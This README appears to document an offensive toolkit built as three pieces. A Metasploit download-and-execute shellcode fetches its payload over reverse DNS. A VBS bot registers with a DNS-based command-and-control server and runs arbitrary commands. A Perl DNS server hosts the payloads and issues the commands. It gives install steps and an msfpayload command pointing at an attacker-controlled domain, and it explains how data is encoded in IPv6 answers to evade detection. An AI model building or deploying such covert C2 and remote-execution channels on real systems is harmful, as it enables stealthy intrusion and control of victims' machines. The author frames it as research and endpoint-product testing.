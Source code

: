 # Reverse DNS payloads for Remote control
Reverse DNS payload for Metasploit: Download  Exec x86 shellcode. Also DNS Handler and VBS bot (working over DNS) as PoC included.

## Components

### dnsshellcode.rb

Metasploit payload: X86 download and exec via reverse DNS channel. Jut put this file into msf3 payload folder and then you could use it like that:

    msfpayload windows/dnsshell DOMAIN=dom.ws EXT=exe J | sed -s 's/\%/\\/g'

DOMAIN - domain you should control.

EXT - file extension

This payload are using getaddrinfo API function for getting data over DNS (to %temp% dir). This shellcod will work even on boxes without IPv6 assigned.
For that all resolved IPv6 addresses should be from reserved block. This shellcode uses IPv6 in ranges from ff00::::::: to ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

those IPv6 will be resolve even if no IPv6 address assigned to the interface (only linked). First byte should be ff, than second is control byte that tell us
what block of data we have and flag "last block". All last 14 bytes of IPv6 - data as is (no encoding needed, like in TXT section). For one DNS response we could
 receive up to 17 IP addresses, so for one DNS request we could get 238 bytes of raw data.
 
 aaaa.dom.ws - first 238 bytes
 baaa.dom.ws - second 238 bytes
 caaa.dom.ws - ....
 ....
 abaa.dom.ws - ...
 cbaa.dom.ws - for example last peace of data (in this case we have flag of last pice in first 4 bits of second byte)
 
 Maximum size: up to 88 Mb (zzzz.dom.ws)
 Download Speed: ~ 4kb/sec
 Shellcode size: 833 bytes (no null bytes by default)
 
### bot.vbs
 
 PoC of agent on VBS that could use reverse DNS channel for RCE control. This prototype uses nslookup for resolving ipv4 addresses.
 As first action this agent will  try to regester on C&C by using AD domain name and user login, after that it will frequently requesting DNS
 for getting commands to execute. If command will be recieved then result of execution will be sent back in base64 format.
 VBS agent was chosen because we could download it faster over reverse DNS shellocde.
 
#### Commands
    exit                 - kill process with agent (wscript)
    sleep                - sleep 30 seconds until next request
    [any other command]  - will run cmd /c [any other command]


This is juts PoC and prototype so we do not have here autorun and hiding features!

### revdns.pl

DNS handler that should be used as dom.ws name server. Works as agent C&C server and could support sessions (if we have more than one agent)
 and also contains egg-drop for shellode (up to 88Mb). Support both: bot.vbs and DNS shellcode. And it is designed to work as combo:
  
 1. Shellcode using this DNS downloading bot.vs and run it
 2. bot.vs using same DNS as C&C

P.S. This perl code based on my old ugly-coded-perl DNS server, so sorry for that 8)

Original(and old) preso about this project is here: [https://erpscan.com/wp-content/uploads/2012/06/dns-for-evil.pdf](CONFidence 2011 slides: DNS for EVIL)

P.P.S updated and have used this project as "APT" attack channel during my tests for "next-gen end-point protection solutions". 